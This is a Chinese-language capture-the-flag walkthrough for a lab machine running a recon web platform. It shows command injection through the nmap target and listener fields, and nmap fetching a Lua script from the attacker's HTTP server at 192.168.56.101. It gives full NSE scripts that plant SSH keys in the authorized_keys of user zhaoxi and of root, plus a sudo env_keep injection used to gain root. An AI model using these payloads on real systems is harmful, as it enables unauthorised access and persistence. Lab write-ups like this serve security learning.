

# 信息收集

![[Pasted image 20261113135232.png]]

![[Pasted image 20261113135414.png]]

发现这是一个内网侦察平台，且可以看到这里的目标地址输入时存在敏感字符绕过

## 解决方法1——使用nmap

该页面有很多功能，我们先选端口扫描来看看能否得到一些信息：

![[Pasted image 20261113142932.png]]

发现这里会将我们输入的目标地址直接拼接进前面的内容

```bash
nmap -iL /xx/xx
```

这个命令原本是指“从文件读取目标列表”

- 选项：`nmap -iL <文件>` 会把文件里的内容当成要扫描的 IP、主机名或网段。
- 列表中的项目应是它能识别的目标格式，如果不是会报错

使用这个我们能够读取靶机上的文件：

![[Pasted image 20261113144815.png]]

并且`nmap`能够执行`lua`脚本

### 漏洞利用

由于我们要想办法得到用户的shell，且已经有前提：`nmap`能够运行`lua`脚本。

因此我们现在可以写一个`lua`脚本。并将该脚本挂到我们攻击机的一个`http`目录下，让靶机通过`nmap`来下载到本地并执行，攻击流程如下：



设计`lua`脚本如下：

```lua
description = [[
Append a supplied SSH public key to zhaoxi's authorized_keys in an authorized lab.
]]
author = "Lab helper"
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
categories = {"intrusive"}

portrule = function(host, port)
  return true
end

action = function(host, port)
  -- 替换成你自己的公钥，整行放在引号里。
  local PUBKEY = "PASTE_YOUR_PUBLIC_KEY_HERE"

  local DIR = "/home/zhaoxi/.ssh"
  local TARGET = "/home/zhaoxi/.ssh/authorized_keys"

  if not PUBKEY:match("^ssh%-[%w%-]+%s+[%w+/=]+") then
    return "请先把 PUBKEY 替换成完整的 SSH 公钥。"
  end

  os.execute("mkdir -p " .. DIR .. " && chmod 700 " .. DIR)

  local file = io.open(TARGET, "a+")
  if not file then
    return "无法打开 " .. TARGET .. "；检查运行 Nmap 的进程权限。"
  end

  file:seek("set", 0)
  for line in file:lines() do
    if line == PUBKEY then
      file:close()
      os.execute("chmod 600 " .. TARGET)
      return "公钥已经存在于 " .. TARGET
    end
  end

  file:write(PUBKEY, "\n")
  file:close()
  os.execute("chmod 600 " .. TARGET)

  return "已将公钥写入 " .. TARGET
end
```

然后在攻击机本地起`http`服务：

```bash
mkdir -p www/a/b
cp k2.lua www/a/b/k2.lua
cd www
python3 -m http.server 8080 --bind 0.0.0.0
```

接下来去靶机的页面让其读取并执行`lua`脚本：

```bash
nmap 192.168.56.101 -p 8080 --script http-fetch --script-args http-fetch.destination=/tmp/z1,http-fetch.url=/a/b/k2.lua
```

![[Pasted image 20261113150629.png]]

执行：

```bash
nmap 127.0.0.1 -p 80 --script /tmp/z1/192.168.56.101/8080/a/b/k2.lua
```

然后ssh到靶机，成功做到用户提权：

![[Pasted image 20261113150906.png]]

## 解决方法2—使用回调监听

随便输入一个回调监听的参数，将地址改成我们攻击机的地址：`192.168.56.101`:

![[Pasted image 20261113141108.png]]

得到一个很正常的输出，也就是我们输入回调监听端口后，这个界面会将其与`nc -lvp`进行拼接然后直接运行。

因此我们可以使得靶机将其shell传到端口4444上，然后让攻击机主动连接靶机，得到shell：


![[Pasted image 20261113151811.png]]

然后去攻击机连接：

![[Pasted image 20261113152145.png]]

成功得到shell，然后通过shell写入公钥即可
# root提权

查看：

```bash
sudo -l
```

![[Pasted image 20261113152235.png]]

它表示 `zhaoxi` **可以免输密码，以 root 身份运行 `VMBreaker`**。这不代表能直接运行任意命令；允许免密运行的只有这个程序。

上面的 `env_keep` 列表表示 sudo 会保留指定的环境变量，例如 `IP`、`LPORT`。WP 后续利用的是：如果 `VMBreaker` 把这些变量直接拼进命令，就可能让普通用户控制传给程序的参数；而程序是以 root 身份运行的，因此可能导致提权。

其他项目大意：

- `env_reset`：sudo 默认会重置大部分环境变量。
- `secure_path`：sudo 运行命令时使用指定的程序搜索路径。
- `use_pty`：通过伪终端运行 sudo 命令。
- `mail_badpass`：输错 sudo 密码时记录或发送相关通知。

![[Pasted image 20261113152552.png]]

发现这里的`VMBreaker`就是我们这个平台的内核，因此再以以上的方法提权：

先在靶机上创建一个和前面类似的脚本，然后让其运行：

```bash
cat > /tmp/root.nse <<'NSE'
description = [[Write and verify a lab SSH public key for root.]]
author = "Lab helper"
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
categories = {"intrusive"}

portrule = function(host, port)
  return true
end

action = function(host, port)
  local PUBKEY = "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILN9Y3tvFFE8LuwXFaUj3EdxVvhpVfjJZXLLbC+Paag5 kali@kali"
  local DIR = "/root/.ssh"
  local TARGET = "/root/.ssh/authorized_keys"

  if not PUBKEY:match("^ssh%-[%w%-]+%s+[%w+/=]+") then
    return "BAD_PUBKEY"
  end

  os.execute("mkdir -p /root/.ssh && chmod 700 /root/.ssh")

  local file, err = io.open(TARGET, "a+")
  if not file then
    return "WRITE_FAILED: " .. tostring(err)
  end

  file:seek("set", 0)
  for line in file:lines() do
    if line == PUBKEY then
      file:close()
      os.execute("chmod 600 " .. TARGET)
      return "KEY_VERIFIED: key already exists"
    end
  end
  file:close()

  local out, write_err = io.open(TARGET, "a")
  if not out then
    return "WRITE_FAILED: " .. tostring(write_err)
  end
  out:write(PUBKEY, "\n")
  out:close()
  os.execute("chmod 600 " .. TARGET)

  local verify = io.open(TARGET, "r")
  if not verify then
    return "VERIFY_FAILED"
  end
  for line in verify:lines() do
    if line == PUBKEY then
      verify:close()
      return "KEY_VERIFIED: key was written"
    end
  end
  verify:close()
  return "VERIFY_FAILED: key not found"
end
NSE

TERM=xterm IP='127.0.0.1 -p 80 --script /tmp/root.nse' sudo /usr/local/sbin/VMBreaker
```

![[Pasted image 20261113153301.png]]

先选择2再选择1：

![[Pasted image 20261113153329.png]]

![[Pasted image 20261113154305.png]]

成功。
